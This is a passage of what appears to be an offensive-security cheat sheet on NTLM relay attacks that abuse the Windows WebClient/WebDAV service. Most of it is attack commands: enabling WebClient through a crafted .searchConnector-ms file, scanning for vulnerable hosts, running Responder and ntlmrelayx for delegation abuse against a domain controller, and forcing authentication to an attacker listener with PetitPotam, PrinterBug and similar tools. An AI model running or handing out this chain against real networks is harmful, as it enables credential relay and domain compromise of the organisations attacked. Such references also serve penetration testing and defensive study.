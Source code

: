 **Requirement**:

*  WebClient service


**Enable WebClient**:

WebClient service can be enable on the machine using several techniques:

* Mapping a WebDav server using `net` command : `net use ...`
* Typing anything into the explorer address bar that isn't a local file or directory
* Browsing to a directory or share that has a file with a `.searchConnector-ms` extension located inside.
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <searchConnectorDescription xmlns="http://schemas.microsoft.com/windows/2009/searchConnector">
        <description>Microsoft Outlook</description>
        <isSearchOnlyItem>false</isSearchOnlyItem>
        <includeInStartMenuScope>true</includeInStartMenuScope>
        <templateInfo>
            <folderType>{91475FE5-586B-4EBA-8D75-D17434B8CDF6}</folderType>
        </templateInfo>
        <simpleLocation>
            <url>https://example/</url>
        </simpleLocation>
    </searchConnectorDescription>
    ```

**Exploitation**:

* Discover machines on the network with enabled WebClient service
    ```ps1
    webclientservicescanner 'domain.local'/'user':'password'@'machine'
    netexec smb 10.10.10.10 -d 'domain' -u 'user' -p 'password' -M webdav
    GetWebDAVStatus.exe 'machine'
    ```

* Disable HTTP in Responder
    ```ps1
    sudo vi /usr/share/responder/Responder.conf
    ```

* Generate a Windows machine name, e.g: "WIN-UBNW4FI3AP0"
    ```ps1
    sudo responder -I eth0
    ```

* Prepare for RBCD against the DC
    ```ps1
    python3 ntlmrelayx.py -t ldaps://dc --delegate-access -smb2support
    ```


* Trigger the authentication to relay to our nltmrelayx: `PetitPotam.exe WIN-UBNW4FI3AP0@80/test.txt 10.10.10.10`, the listener host must be specified with the FQDN or full netbios name like `logger.domain.local@80/test.txt`. Specifying the IP results in anonymous auth instead of System. 
  ```ps1
  # PrinterBug
  dementor.py -d "DOMAIN" -u "USER" -p "PASSWORD" "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt" "TARGET_IP"
  SpoolSample.exe "TARGET_IP" "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt"

  # PetitPotam
  Petitpotam.py "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt" "TARGET_IP"
  Petitpotam.py -d "DOMAIN" -u "USER" -p "PASSWORD" "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt" "TARGET_IP"
  PetitPotam.exe "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt" "TARGET_IP"
  ```
